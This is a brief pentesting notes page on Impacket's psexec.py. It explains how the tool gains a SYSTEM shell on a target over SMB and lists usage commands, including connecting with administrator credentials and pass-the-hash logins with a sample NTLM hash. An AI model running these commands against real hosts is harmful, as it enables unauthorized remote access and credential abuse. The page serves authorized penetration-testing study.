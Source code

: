 ```yaml
---
title:  PsExec - a module from Impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - smb
---
```

# Impacket PsExec

The [PSExec service](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

## Installation 

Donwload from: [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) -

## Basic commands


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
impacket-psexec administrator:'<password>'@$ip

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Connect to a machine passing the hash
impacket-psexec $domain/$user@$ip -hashes $LM-authentication:$NTLM
# Example:
# impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```